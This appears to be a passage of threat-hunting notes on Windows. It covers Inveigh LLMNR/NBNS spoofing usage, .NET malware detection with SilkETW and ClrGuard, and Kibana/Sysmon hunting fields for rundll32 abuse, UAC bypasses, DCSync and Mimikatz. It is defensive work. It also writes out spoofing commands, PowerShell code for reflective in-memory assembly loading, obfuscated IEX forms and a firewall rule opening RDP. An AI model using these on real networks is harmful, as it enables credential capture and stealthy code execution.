HTTP Reset Delay Timeout = 30 Seconds
WPAD Default Response = Enabled
Machine Account Capture = Disabled
Real Time Console Output = Disabled
Real Time File Output = Disabled
WARNING: Run Stop-Inveigh to stop Inveigh
```

.EXAMPLE Import full module and execute with all default settings.
```
Import-Module .\Inveigh.psd1;Invoke-Inveigh
```

.EXAMPLE Dot source load and execute specifying a specific local listening/spoofing IP.
```
. ./Inveigh.ps1;Invoke-Inveigh -IP 192.168.1.10
```

.EXAMPLE Execute specifying a specific local listening/spoofing IP and disabling HTTP challenge/response.

```
Invoke-Inveigh -IP 192.168.1.10 -HTTP N
```

.EXAMPLE Execute with the stealthiest options.
```
Invoke-Inveigh -SpooferRepeat N -WPADAuth Anonymous -SpooferHostsReply host1,host2 -SpooferIPsReply 192.168.2.75,192.168.2.76
```

.EXAMPLE Execute in order to only inpect LLMNR/mDNS/NBNS traffic.
```
Invoke-Inveigh -Inspect
```

.EXAMPLE Execute specifying a specific local listening IP and a LLMNR/NBNS spoofing IP on another subnet. This may be zuseful for sending traffic to a controlled Linux system on another subnet.

```
Invoke-Inveigh -IP 192.168.1.10 -SpooferIP 192.168.2.50 -HTTP N
```

.EXAMPLE Execute specifying an HTTP redirect response.
```
Invoke-Inveigh -HTTPResponse "<html><head><meta http-equiv='refresh' content='0; url=https://duckduckgo.com/'></head></html>"
```

# Hunting .Net Malware

- [LOLBAS](https://lolbas-project.github.io/)
- [LOLBAS - Msbuild](https://lolbas-project.github.io/lolbas/Binaries/Msbuild/)

Paths:
```
C:\Windows\Microsoft.NET\Framework\v2.0.50727\Msbuild.exe
C:\Windows\Microsoft.NET\Framework64\v2.0.50727\Msbuild.exe
C:\Windows\Microsoft.NET\Framework\v3.5\Msbuild.exe
C:\Windows\Microsoft.NET\Framework64\v3.5\Msbuild.exe
C:\Windows\Microsoft.NET\Framework\v4.0.30319\Msbuild.exe
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Msbuild.exe
C:\Program Files (x86)\MSBuild\14.0\bin\MSBuild.exe
```

## Hunting in Sysmon using Powershell

Refer to [Hunting in Sysmon](https://github.com/kengentenerende/ThreatHunting/blob/master/THP_EID_LOG_SIEM.md#hunting-in-sysmon)

## Event Tracing for Windows & SilkETW 
In Windows, there is a kernel-level tracing facility, which logs kernel and/or application level events to a log file known as **Event Tracing for Windows** (ETW). Although less well known, perhaps due to its complexity and the mass of events generated, it can provide valuable data for a threat hunter. **FuzzySec** released SilkETW to help deal with the complexity of setting up ETW.

```

███████╗██╗██╗   ██╗  ██╗███████╗████████╗██╗    ██╗
██╔════╝██║██║   ██║ ██╔╝██╔════╝╚══██╔══╝██║    ██║
███████╗██║██║   █████╔╝ █████╗     ██║   ██║ █╗ ██║
╚════██║██║██║   ██╔═██╗ ██╔══╝     ██║   ██║███╗██║
███████║██║█████╗██║  ██╗███████╗   ██║   ╚███╔███╔╝
╚══════╝╚═╝╚════╝╚═╝  ╚═╝╚══════╝   ╚═╝    ╚══╝╚══╝
                  [v0.8 - Ruben Boonen => @FuzzySec]


 >--~~--> Args? <--~~--<

-h  (--help)          This help menu
-s  (--silk)          Trivia about Silk
-t  (--type)          Specify if we are using a Kernel or User collector
-kk (--kernelkeyword) Valid keywords: Process, Thread, ImageLoad, ProcessCounters, ContextSwitch,
                      DeferedProcedureCalls, Interrupt, SystemCall, DiskIO, DiskFileIO, DiskIOInit,
                      Dispatcher, Memory, MemoryHardFaults, VirtualAlloc, VAMap, NetworkTCPIP, Registry,
                      AdvancedLocalProcedureCalls, SplitIO, Handle, Driver, OS, Profile, Default,
                      ThreadTime, FileIO, FileIOInit, Verbose, All, IOQueue, ThreadPriority,
                      ReferenceSet, PMCProfile, NonContainer
-uk (--userkeyword)   Define a mask of valid keywords, eg 0x2038 -> JitKeyword|InteropKeyword|
                      LoaderKeyword|NGenKeyword
-pn (--providername)  User ETW provider name, eg "Microsoft-Windows-DotNETRuntime" or its
                      corresponding GUID eg "e13c0d23-ccbc-4e12-931b-d9cc2eee27e4"
-l  (--level)         Logging level: Always, Critical, Error, Warning, Informational, Verbose
-ot (--outputtype)    Output type: POST to "URL", write to "file" or write to "eventlog"
-p  (--path)          Full output file path or URL. Event logs are automatically written to
                      "Applications and Services Logs\SilkETW-Log"
-f  (--filter)        Filter types: None, EventName, ProcessID, ProcessName, Opcode
-fv (--filtervalue)   Filter type capture value, eg "svchost" for ProcessName
-y  (--yara)          Full path to folder containing Yara rules
-yo (--yaraoptions)   Either record "All" events or only "Matches"

 >--~~--> Usage? <--~~--<

# Use a VirtualAlloc Kernel collector, POST results to Elasticsearch
SilkETW.exe -t kernel -kk VirtualAlloc -ot url -p https://some.elk:9200/valloc/_doc/

# Use a Process Kernel collector, filter on PID
SilkETW.exe -t kernel -kk Process -ot url -p https://some.elk:9200/kproc/_doc/ -f ProcessID -fv 11223

# Use a .Net User collector, specify mask, filter on EventName, write to file
SilkETW.exe -t user -pn Microsoft-Windows-DotNETRuntime -uk 0x2038 -ot file -p C:\Some\Path\out.json -f EventName -fv Me
thod/LoadVerbose

# Use a DNS User collector, specify log level, write to file
SilkETW.exe -t user -pn Microsoft-Windows-DNS-Client -l Always -ot file -p C:\Some\Path\out.json

# Use an LDAP User collector, perform Yara matching, POST matches to Elasticsearch
SilkETW.exe -t user -pn Microsoft-Windows-Ldap-Client -ot url -p https://some.elk:9200/ldap/_doc/ -y C:\Some\Yara\Rule\F
older -yo matches

# Specify "Microsoft-Windows-COM-Perf" by its GUID, write results to the event log
SilkETW.exe -t user -pn b8d6861b-d20f-4eec-bbae-87e0dd80602b -ot eventlog
```
- [Detecting Malicious Use of .NET](https://blog.f-secure.com/detecting-malicious-use-of-net-part-1/)
- [SilkETW & SilkService](https://github.com/mandiant/SilkETW)
- [Threat Hunting with ETW events and HELK — Part 1: Installing SilkETW](https://medium.com/threat-hunters-forge/threat-hunting-with-etw-events-and-helk-part-1-installing-silketw-6eb74815e4a0)
- [Threat Hunting with ETW events and HELK — Part 2: Shipping ETW events to HELK](https://medium.com/threat-hunters-forge/threat-hunting-with-etw-events-and-helk-part-2-shipping-etw-events-to-helk-16837116d2f5)
- [Hunting for Suspicious LDAP Activity with SilkETW and Yara](https://riccardoancarani.github.io/2019-10-19-hunting-for-domain-enumeration/)
- [Events from all manifest-based and mof-based ETW providers across Windows 10 versions](https://github.com/jdu2600/Windows10EtwEvents)

SilkService-Log - **Event ID 3**

```
Event Viewer > Applications and Services Logs > SilkService-Log.
```

Hunting **SilkService Collector Logs** using Powershell
```
PS > (Get-WinEvent -FilterHashtable @{LogName="SilkService-Log"; ID=3}).Message | ConvertFrom-Json | Where-Object { $_.ProcessName -like '*TARGET_PROCESSNAME*' } | fl > output.txt
```
```
PS > (Get-WinEvent -FilterHashtable @{LogName="SilkService-Log"; ID=3}).Message | ConvertFrom-Json | Where-Object { $_.XmlEventData -like '*seatbelt*' } | fl > output.txt

```
**This will save ASCII String of Target File**
```
[System.IO.File]::ReadAllText("C:\Users\admin\AppData\Local\Temp\451tvfu2.dll") -replace '[^\x20-\x7E]', "`n" | Out-File -FilePath "output.txt" -Encoding ASCII
```

The provider that we are interested in for this example is **MicrosoftWindows-DotNETRuntime.** To the left is the utilized SilkService configuration

```
Sample Logs:
ProviderGuid    : e13c0d23-ccbc-4e12-931b-d9cc2eee27e4
YaraMatch       : {}
ProviderName    : Microsoft-Windows-DotNETRuntime
EventName       : Method/LoadVerbose
Opcode          : 37
OpcodeName      : LoadVerbose
TimeStamp       : 2022-07-06T06:21:17.8102933+00:00
ThreadID        : 2824
ProcessID       : 5768
ProcessName     : Windows_Reporting
PointerSize     : 8
EventDataLength : 94
XmlEventData    : @{ModuleID=140,729,209,892,600; PID=5768; ClrInstanceID=6; MethodSignature=void  (); 
                  MethodID=140,729,209,987,656; MethodFlags=Jitted; MethodToken=100,663,348; 
                  FormattedMessage=MethodID=140,729,209,987,656;
                  ModuleID=140,729,209,892,600;
                  MethodStartAddress=140,729,208,316,912;
                  MethodSize=200;
                  MethodToken=100,663,348;
                  MethodFlags=Jitted;
                  MethodNamespace=SeatBelt;
                  MethodName=PrintLogo;
                  MethodSignature=void  ();
                  ClrInstanceID=6 ; MSec=2747882.4513; MethodNamespace=SeatBelt; 
                  MethodStartAddress=140,729,208,316,912; TID=2824; MethodSize=200; 
                  ProviderName=Microsoft-Windows-DotNETRuntime; PName=; MethodName=PrintLogo; 
                  EventName=Method/LoadVerbose}

```
**Indicators of compromise**
- MethodNamespace
- ManagedInteropMethodNamespace

**Reference**: [GhostPack/Seatbelt](https://github.com/GhostPack/Seatbelt) - **Seatbelt** is a C# project that performs a number of security oriented host-survey "safety checks" relevant from both offensive and defensive security perspectives.

## Execute-Assembly

The enormous abuse of PowerShell resulted in close monitoring by defenders and EDR solutions, which are able to (often) detect and block even obfuscated commands. 
- [GhostPack](https://github.com/GhostPack)
- [Rubeus](https://github.com/GhostPack/Rubeus)
- [SharpView](https://github.com/tevora-threat/SharpView)
- [SharpHound](https://github.com/BloodHoundAD/SharpHound)

Hunting for the usage of .NET tools like Rubeus, combined with injection techniques such as Cobalt Strike's *execute-assembly* has proven to be a challenge task because: 
- Reflective Injection is used, so nothing is stored on disk 
- After execution, the memory region is cleared and there are very little traces of injection and/or what was injected (even in memory!).

PowerShell has the ability to load .NET assemblies from a specified location or even from a Byte Array (like attackers prefer)

Reference:
- [dotnet-gargoyle](https://github.com/WithSecureLabs/dotnet-gargoyle) - A spiritual .NET equivalent to the Gargoyle memory scanning evasion technique
- [Loading .NET Assemblies From Memory](https://powershell.one/tricks/assemblies/load-from-memory)
- [Suspicious .NET Reflection via PowerShell](https://www.elastic.co/guide/en/security/current/suspicious-net-reflection-via-powershell.html)
- [C# In Memory Assemblies](https://exord66.github.io/csharp-in-memory-assemblies)

The easiest way in which we can cause the *LoadImage()* function to be called in order for a custom assembly to be loaded is through PowerShell.

```powershell
# take a file...
$Path = "C:\Users\admin\Downloads\dotnet-gargoyle\x64\Release\DemoAssembly.dll"
# read all bytes...
$bytes = [System.IO.File]::ReadAllBytes($Path)
$assembly = [System.Reflection.Assembly]::Load($bytes)
$t = $assembly.GetType("DemoAssembly.DemoClass")
$m = $t.GetMethod("HelloWorld")
$instance = [Activator]::CreateInstance($t, $null)
$m.Invoke($instance, $null)
```

**Embedding Binary Dependencies**

Step 1: Base64 Encoding: 
- To turn any binary file into a string, you simply read the file content as bytes, then convert the bytes to a Base64-encoded string:
```powershell
# take a file...
$Path = "$PSScriptRoot\Microsoft.Experimental.IO.dll"
# read all bytes...
$bytes = [System.IO.File]::ReadAllBytes($Path)
# turn bytes into Base64 string:
$string = [System.Convert]::ToBase64String($bytes)

# the result is a VERY long string. It is much longer
# than the original file:
$file = Get-Item -Path $Path
[PSCustomObject]@{
    'Original File Length' = $file.Length
    'Base64 String Length' = $string.Length
    'Size Increase' = ('{0:p}' -f ($string.Length / $file.Length))
} | Format-List
```

Step 2: Embedding the Resource:
- To load the string into memory and get access to the DLL functionality, convert it back into a byte array and load the bytes into memory. Unfortunately, Add-Type can load only file-based DLLs into memory. But you can resort to *[System.Reflection.Assembly]::Load()* instead.
```powershell
$dll = 'TVqQAAMAAAAEAAAA//8AALgAAAAA...'
$bytes = [System.Convert]::FromBase64String($dll)
[System.Reflection.Assembly]::Load($bytes)
```

## ClrGuard

[ClrGuard](https://github.com/endgameinc/ClrGuard)
ClrGuard is a proof of concept project to explore instrumenting the Common Language Runtime (CLR) for security purposes. ClrGuard leverages a simple appInit DLL (ClrHook32/64.dll) in order to load into all CLR/.NET processes. From there, it performs an in-line hook of security critical functions. Currently, the only implemented hook is on the native LoadImage() function. When events are observed, they are sent over a named pipe to a monitoring process for further introspection and mitigation decision.

```md
NOTE: There are execute-assembly variations included in multiple attacking frameworks. The detection method covered by **ClrGuard** doesn't work only against Cobalt Strike.
```

```
C:\Users\admin\Desktop\ClrGuard\dist>ClrGuard.exe
-- CLRGuard --
Client connected
Read command msg
+ Pid: 2476, process: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe,
 module size: 1000
  Module hash: A949B6238C41F1B585F488849BB3E5BCF72F52DCF7B28C241E63F3AB099DA828
  Module: 13g0kbve.dll
  TypeRef: System::Object
  TypeRef: System.Runtime.CompilerServices::CompilationRelaxationsAttribute
  TypeRef: System.Runtime.CompilerServices::RuntimeCompatibilityAttribute
  TypeRef hash: C877074345EA6EB82FCE5111CFF4AE6631CA0285AAD9018B7EACB86DADFB31EC

whitelisted
Client connected
Read command msg
+ Pid: 2904, process: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe,
 module size: 1000
  Module hash: 3AD2D846CB10763DF1F6BB23B50467F62E8EEE2907C17ECB592477BA2351D93B
  Module: fzqfkdyz.dll
  TypeRef: System::Object
  TypeRef: System.Runtime.CompilerServices::CompilationRelaxationsAttribute
  TypeRef: System.Runtime.CompilerServices::RuntimeCompatibilityAttribute
  TypeRef hash: C877074345EA6EB82FCE5111CFF4AE6631CA0285AAD9018B7EACB86DADFB31EC

whitelisted
```

### AddTypeRaceCondition
[Add-TypeRaceCondition.ps1](https://github.com/ahhh/PSSE/blob/master/Add-TypeRaceCondition.ps1) exploits a race condition vulnerability in Add-Type and compiles and loads CSharp code, bypassing constrained language mode. The vulnerability in Add-Type relies on the fact that it drops the code to be compiled to a .cs file in the user's TEMP directory. Considering %TEMP% is writeable by the user, Add-TypeRaceCondition continually looks for new .cs files in %TEMP% and overwrites any new ones with the code specified in -TypeDefinition. Note: this is is not a PowerShell bug. This is a bug in how files are created, compiled, and loaded with csc.exe.

**Indicators of compromise**
Indicators related to Add-Type hijacking. 
Note: There is plenty of legitimate, signed PowerShell code that calls Add-Type.
Legitimate calls to Add-Type will drop files with prevalence.

**File artifacts:**
```
1) %TEMP%\<RANDOM_8_CHARS>.0.cs
   * Created by, deleted by, written to by powershell.exe
   * Read by csc.exe
   * Does not persist. Deleted quickly after use.
```
```
2) %TEMP%\<RANDOM_8_CHARS>.dll
   * Written to by csc.exe
   * Read from by, deleted by powershell.exe
   * This will be a low-prevalence PE not associated with DLLs emited via otherwise legitimate calls to Add-Type.
   * Does not persist. Deleted quickly after use.
   * Unfortunately, image load sysmon events are not possible with this artifact since it is not loaded via traditional means.
```
**Process creation:**
```
1) "<DOTNET_FRAMEWORK_DIR>\csc.exe" /noconfig /fullpaths @"%TEMP%\<RANDOM_8_CHARS>.cmdline"
   * Parent process: powershell.exe
2) <DOTNET_FRAMEWORK_DIR>\cvtres.exe /NOLOGO /READONLY /MACHINE:IX86 "/OUT:%TEMP%\RES<RANDOM_3_HEX_CHARS>.tmp" "%TEMP%\CSC<RANDOM_32_HEX_CHARS>.TMP"
   * Parent process: csc.exe
```


# Suspicious Powershell Commands

Ignore the commands in the profile file
```
-NoProfile
-nop
```
shorthand for -NonInteractive, meaning an interactive prompt to the user will not be presented.
```
-NonInteractive
-NonI
```
indicates the following chunk of text is a encoded command.
```
-Encodedcommand
-Enc
-eNco
-^e^C^
-ec
```
Indicates that the PowerShell session window should be started in a hidden manner.
```
-WindowsStyle Hidden
-W Hidden
```
Disables the execution policy for the current PowerShell session (default disallows execution).
```
-Exec Bypass
-ExecutionPolicy Bypass
-ep bypass
```
Creates an instance of a .NET Framework or COM object, here Net.Webclient object
```
New-Object
```
Will download the contents from URL into a memory buffer (which in turn IEX will execute)
```
-downloadstring
```
Provides common methods for sending data to and receiving data from a resource identified by a URL
```
Net.webclient
```
The Get-WmiObject cmdlet gets instances of WMI classes or information about the available WMI classes
```
Get-WMIObject
Get-CimInstance
```
The Start-Process cmdlet starts one or more processes on the local computer
```
Start-Process
```
Is an alias for the Invoke-Expression cmdlet that will execute the command provided on the local machine.
```
-IEX
```
- The dot (.) in PowerShell is the dot sourcing operator. It is used to run a script in the current scope rather than in a new scope. 
- This is basically for **iex** which stands for invoke expression. The Invoke-Expression cmdlet (*command-let*) evaluates or runs a specified string as a command and returns the results of the expression or command.
- $PSHome stands for "C:\Windows\System32\WindowsPowerShell\[version]"

```
.($pShOmE[4]+$PSHome[34]+'X')
```
- In PowerShell, the & (ampersand) symbol is the call operator. It is used to invoke a command or script. When you use & followed by an expression or a command, PowerShell treats it as a command to be executed. 
- MDR stands for **"MaximumDriveCount"**

```
&((gEt-VARIABLe '*mdR*').naME[3,11,2]-jOiN'')
```
- Reverse IEX Command
```
(noiSsErPXe-EkovnI" ,'.','RiGh'+'t'+'tOlef'+'t')
```
# Powershell Detection VIA WinEvt Logs
Windows PowerShell event log entries indicating the start and stop of PowerShell activity 
- **Event ID 400**: *Engine state is changed from None to Available*, upon the start of any local or remote PowerShell activity. 
- **Event ID 600**: Referencing *WSMan* (e.g. *Provider WSMan Is Started*), indicating the onset of PowerShell remoting activity on both source and destination systems. 
- E**vent ID 403**: *Engine state is changed from Available to Stopped,* upon the end of the PowerShell activity. 
- **Event ID 40961**: *PowerShell console is starting up*
- **Event ID 4100**: *Error Message = File (path to) test.ps1 cannot be loaded...*

# ELK
Elastic's ELK is an open source stack that consists of three applications (Elasticsearch, Logstash and Kibana) working in synergy to provide users with end-to-end search and visualization capabilities to analyze and investigate log file sources in real time.

ELK Stack 
- Elasticsearch – index storage and search backend
- Logstash – used to shape logs and ship logs to Elasticsearch
- Kibana – GUI frontend for search, visualization, dashboards, reporting and alerting, and Elastic stack cluster management
- Beats – Lightweight log shippers that are installed on endpoints

# Visualization

- Home > Visualization
- Click the Create Visualization
- Click the Vertical Bar > *target_log*

Now we have our Metrics and Buckets. Sample Configuration for Top 10 Agent Hostname:

- **Metrics**: Y-axis
- **Buckets**: X-axis
- **Aggregation**: Terms
- **Field**: agent.hostname / host.name.keyword
- **Order** by: Metric: Count
- **Order**: Descending
- **Size**: 10
- **Custom Label**: Top 10 Agent Hostname

Go to Dashboard and add all of your visualized charts.

Note: On the search bar part, you may see there's a **KQL** there. KQL stands for
Kibana Query Language. Make sure to enable KQL for every session for better search usage.

# Intel-driven Threat Hunting
- [mitre_attack_xml_eventlogs](https://github.com/BoredHackerBlog/mitre_attack_xml_eventlogs/tree/db5699e016a223c31d34a6d3024ac9cd33d87f52?tab=readme-ov-file) - MITRE ATTACK evtx samples from EVTX-to-MITRE-Attack & EVTX-ATTACK-SAMPLES repos in XML format
- [EVTX-ATTACK-SAMPLES](https://github.com/Lichtsinnig/EVTX-ATTACK-SAMPLES/tree/57395181405d5e3e91edfb70c7ffefad4fcfc04f) - This is a container for windows events samples associated to specific attack and post-exploitation techniques
- [Atomic Red Team](https://github.com/redcanaryco/atomic-red-team) - Atomic Red Team is a library of tests mapped to the MITRE ATT&CK® framework. Security teams can use Atomic Red Team to quickly, portably, and reproducibly test their environments.
- [MITRE Cyber Analytics Repository](https://car.mitre.org/analytics/by_technique)- The MITRE Cyber Analytics Repository (CAR) is a knowledge base of analytics developed by MITRE based on the MITRE ATT&CK adversary model.
- [Threat Hunter Playbook](https://threathunterplaybook.com/intro.html) - The Threat Hunter Playbook is a community-driven, open source project to share detection logic, adversary tradecraft and resources to make detection development more efficient. 

## Execution: Rundll32
Fields of Interest:

- process.name: `rundll32.exe`
- process.args:`*pcwutl.dll*` `*LaunchApplication*`
- process.args:`("*\\rundll32.exe* url.dll,*OpenURL *" "*\\rundll32.exe* url.dll,*OpenURLA *" "*\\rundll32.exe* url.dll,*FileProtocolHandler *" "*\\rundll32.exe* zipfldr.dll,*RouteTheCall *" "*\\rundll32.exe* Shell32.dll,*Control_RunDLL *" "*\\rundll32.exe javascript\:*" "* url.dll,*OpenURL *" "* url.dll,*OpenURLA *" "* url.dll,*FileProtocolHandler *" "* zipfldr.dll,*RouteTheCall *" "* Shell32.dll,*Control_RunDLL *" "* javascript\:*" "*.RegisterXLL*")`

Reference:
- [win_susp_rundll32_activity.yml](https://gist.github.com/curi0usJack/14d1b2062691c0a50c4dae6f29001107)

## Execution: URL.dll/IEFrame.dll
Fields of Interest:

- event.code: `*1*` 
- winlog.event_data.ParentImage
- process.name: `rundll32.exe`
- process.args:`(url.dll OR ieframe.dll)` AND `(FileProtocolHandler OR OpenURLA)`

## Execution: Pcwutl
Fields of Interest:

- event.code: `*1*` 
- winlog.event_data.ParentImage
- process.name: `rundll32.exe`
- process.args:`*pcwutl.dll*` `*LaunchApplication*`

Reference:
- [LOLBIN - Pcwutl.dll](https://lolbas-project.github.io/lolbas/Libraries/Pcwutl/)

## Execution: Squiblydoo
Fields of Interest:

- event.code: `*1*` 
- winlog.event_data.ParentImage
- winlog.event_data.ParentCommandLine: `*scrobj*` `*regsvr32*`
- winlog.event_data.Image
- winlog.event_data.CommandLine: `*scrobj*` `*regsvr32*`
- agent.hostname
- winlog.computer_name

## Execution: Mshta

- event.code: `*1*` 
- winlog.event_data.ParentImage
- process.name: `rundll32.exe`
- process.args:`*mshtml*` `*RunHTMLApplication*`

## Persistence: DCSync Attack
Fields of Interest:

An operation was performed on an object (Windows Security)
- event.code: `*4662*` 
- AccessMask: `*0x100*`
- OperationProperties:
  - `*1131f6ad-9c07-11d1-f79f-00c04fc2dcd2*`
  - `*1131f6aa-9c07-11d1-f79f-00c04fc2dcd2*`
  - `*9923a32a-3607-11d2-b9be-0000f87a36b2*`
  - `*89e95b76-444d-4c62-991a-0facbeda640c*`
- SubjectUserName|endswith: `NOT *$*`

Reference:
- [DCSync Detection, Exploitation, and Detection](https://www.linkedin.com/pulse/dcsync-detection-exploitation-debashis-pal/)
- [Detects Mimikatz DC sync security events](https://github.com/SigmaHQ/sigma/blob/961932ee3fa9751c8f91599b70ede33bc72d90eb/rules/windows/builtin/security/win_security_dcsync.yml#L26)

## Persistence: BitsAdmin
Key Indicators
- **EventID 3** - A bits job was created
- **EventID 59** - A bits job was started
- **EventID 60** - A Bits job was stopped

Fields of Interest:

- event.code: `*3*` OR `*59*` OR `*60*`
- channel
- event.action: `*BITS*`
- bytesTransferred
- url
- message

## Privelege Escalation: UAC Bypass Using SDCLT.EXE
Fields of Interest:

Registry (Sysmon)
- event.code: `*13*` 
- registry.key.path: `*IsolatedCommand*`
- registry.key.value: 

Process (Sysmon)
- event.code: `*1*` 
- process.parent.executable
- process.parent.args
- registry.key.path: 
- process.executable: 
- process.args: `*sdclt.exe*` `*/Kickoffelev*`

Reference:
- ["FILELESS" UAC BYPASS USING SDCLT.EXE](https://enigma0x3.net/2017/03/17/fileless-uac-bypass-using-sdclt-exe/)
- [Bypasses UAC by hijacking the "IsolatedCommand" value in "shell\runas\command"](https://github.com/enigma0x3/Misc-PowerShell-Stuff/blob/master/Invoke-SDCLTBypass.ps1)


## Privilege Escalation: UAC Bypass Using cliconfg (DLL - NTWDBLIB.dll)
Fields of Interest:

FileCreate or ModuleLoad(Sysmon)
- event.code: `*11*` OR `*7*` 
- file.path: `NTWDBLIB.dll`
- process.executable: 


## Privilege Escalation: UAC Bypass using CompMgmtLauncher
Identifies use of CompMgmtLauncher.exe to bypass User Account Control. Adversaries use this technique to execute privileged processes.

Fields of Interest:

Registry (Sysmon)
- event.code: `*13*` 
- registry.key.path: `"\\mscfile\\shell\\open\\command"`
- registry.key.value: 
- event.action

Process (Sysmon)
- event.code: `*1*` 
- process.parent.executable
- process.parent.args
- registry.key.path: 
- process.executable: 
- process.args: `*CompMgmtLauncher.exe*`
- event.action

Reference:
[Bypass UAC via CompMgmtLauncher](https://eqllib.readthedocs.io/en/latest/analytics/7efc7afe-8396-4bf0-ac7d-1a860a401d22.html)


## Defense Evasion: Indicator Removal on Host
Fields of Interest:

- event.code: `*104*` or `*1102*`
- Time
- winlog.computer_name
- winlog.channel
- agent.hostname / host.name
- user.name


## Defense Evasion: RDP Settings Tampering
Fields of Interest:

- event.code: `*1*`
- file.path: `*netsh*`
- process.args: `*netsh*` `*advfirewall*` `*localport=3389*` `*action=allow*`

Reference:
- [RDP Wrapper Library by Stas'M](https://github.com/stascorp/rdpwrap)

```
C:\Users\IEUser\Desktop\RDPWrap-v1.6.2\RDPWInst, -i, -o
```
```
netsh, advfirewall, firewall, add, rule, name=Remote Desktop, dir=in, protocol=tcp, localport=3389, profile=any, action=allow
```

## Defense Evasion: Java DLL Sideloading
**Key Indicators**

When analyzing Sysmon logs, look for indications of Java programs with interesting behavior such as:
- executing from a directory other than the Java home directory
- loading legitimate DLL from an other-than-expected path
- script processes spawning an unsigned binary
- Service Host process (svchost.exe) spawned by an unexpected parent
- exporting registry hives

Look for the following Sysmon events:
- **Event ID 1** - A process was created
- **Event ID 7** - A module was loaded
- **Event ID 8** - A remote thread was created
- **Event ID 13** - A registry value was modified


## Credential Dumping: INVOKE-MIMIKATZ
**Key Indicators**

Begin by filtering on the indicators below:
- **Event ID 10 **- A process was accessed
- **lsass.exe**

Fields of Interest:

- event.code: `*1*`
- target.image: `*lsass.exe*`
- process.args: `0x143A` OR `0x1010` OR `0x1410` OR `0x1438`

Reference
- [Threat Hunter Plyabook - Mimikatz OpenProcess Modules](https://threathunterplaybook.com/library/windows/mimikatz_openprocess_modules.html?highlight=1438)

An **access mask** is a 32-bit value whose bits correspond to the access rights supported by an object. Different versions of Mimikatz in the wild have been observed using the access masks below. Note that our Logstash configuration mutates the Sysmon Granted Access log field to "process.granted_access" which may be named differently elsewhere.

| module                                                                          | ACCESS_MASK translated | OpenProcess caller function                                                  | destination process / destination service | ACCESS_MASK                                                                                                       | comment                                                                                                                                                                                                                                                                                                                                                                                                                      |
|---------------------------------------------------------------------------------|------------------------|------------------------------------------------------------------------------|-------------------------------------------|-------------------------------------------------------------------------------------------------------------------|------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| sekurlsa::*                                                                     | 0x1410                 | kuhl_m_sekurlsa_acquireLSA()                                                 | lsass.exe                                 | PROCESS_VM_READ \| PROCESS_QUERY_INFORMATION                                                                      | for Windows Version < 5                                                                                                                                                                                                                                                                                                                                                                                                      |
| sekurlsa::*                                                                     | 0x1010                 | kuhl_m_sekurlsa_acquireLSA()                                                 | lsass.exe                                 | PROCESS_VM_READ \| PROCESS_QUERY_LIMITED_INFORMATION                                                              | for Windows Version >= 6                                                                                                                                                                                                                                                                                                                                                                                                     |
| lsadump::lsa /patch                                                             | 0x1438                 | kuhl_m_lsadump_lsa_getHandle()                                               | SamSs                                     | PROCESS_VM_READ \| PROCESS_VM_WRITE \| PROCESS_VM_OPERATION \| PROCESS_QUERY_INFORMATION                          |                                                                                                                                                                                                                                                                                                                                                                                                                              |
| lsadump::lsa /inject                                                            | 0x143a                 | kuhl_m_lsadump_lsa_getHandle()                                               | SamSs                                     | PROCESS_VM_READ \| PROCESS_VM_WRITE \| PROCESS_VM_OPERATION \| PROCESS_QUERY_INFORMATION \| PROCESS_CREATE_THREAD |                                                                                                                                                                                                                                                                                                                                                                                                                              |
| lsadump::trust /patch                                                           | 0x1438                 | kuhl_m_lsadump_lsa_getHandle()                                               | SamSs                                     | PROCESS_VM_READ \| PROCESS_VM_WRITE \| PROCESS_VM_OPERATION \| PROCESS_QUERY_INFORMATION                          |                                                                                                                                                                                                                                                                                                                                                                                                                              |
| minesweeper::infos                                                              | 0x1418                 | kuhl_m_minesweeper_infos()                                                   | minesweeper.exe                           | PROCESS_VM_READ \| PROCESS_VM_OPERATION \| PROCESS_QUERY_INFORMATION                                              |                                                                                                                                                                                                                                                                                                                                                                                                                              |
| misc:detours                                                                    |                        | kuhl_m_misc_detours_callback_process()                                       | *                                         | GENERIC_READ                                                                                                      | omitted because of the very generic ACCESS_MASK                                                                                                                                                                                                                                                                                                                                                                              |
| misc:memssp                                                                     | 0x1438                 | kuhl_m_misc_memssp()                                                         | lsass.exe                                 | PROCESS_VM_READ \| PROCESS_VM_WRITE \| PROCESS_VM_OPERATION \| PROCESS_QUERY_INFORMATION                          |                                                                                                                                                                                                                                                                                                                                                                                                                              |
| process::suspend, process:stop, process:resume,process:imports, process:exports |                        | kuhl_m_process_genericOperation()                                            |                                           |                                                                                                                   | omitted because of the very generic ACCESS_MASKs                                                                                                                                                                                                                                                                                                                                                                             |
| vault::cred /patch                                                              | 0x1438                 | kuhl_m_vault_cred()                                                          | SamSs                                     | PROCESS_VM_READ \| PROCESS_VM_WRITE \| PROCESS_VM_OPERATION \| PROCESS_QUERY_INFORMATION                          |                                                                                                                                                                                                                                                                                                                                                                                                                              |
| token::list, token::elevate, token::run                                         | first 0x1400 then 0x40 | querying all processes on the system                                         | *                                         |                                                                                                                   | all three commands result in a call to kull_m_token_getTokens() which first iterates over all processes and threads with OpenProcess(PROCESS_QUERY_INFORMATION (0x1400)) (kull_m_token_getTokens_process_callback()) and then again to get the tokens OpenProcess(PROCESS_DUP_HANDLE (0x40)) (in kull_m_handle_getHandlesOfType_callback()) to duplicate the Tokens. This results in many thousand (!) Events with ID 10 (!) |
| crypto::cng                                                                     | 0x1438                 | kull_m_patch_genericProcessOrServiceFromBuild() via kuhl_m_crypto_p_cng()    | KeyIso                                    | PROCESS_VM_READ \| PROCESS_VM_WRITE \| PROCESS_VM_OPERATION \| PROCESS_QUERY_INFORMATION                          |                                                                                                                                                                                                                                                                                                                                                                                                                              |
| event::drop                                                                     | 0x1438                 | kull_m_patch_genericProcessOrServiceFromBuild() via kuhl_m_event_drop()      | EventLog                                  | PROCESS_VM_READ \| PROCESS_VM_WRITE \| PROCESS_VM_OPERATION \| PROCESS_QUERY_INFORMATION                          | ** this event does not get logged! :O mimikatz seems to be fast enough to apply the patch before the event gets logged!**                                                                                                                                                                                                                                                                                                    |
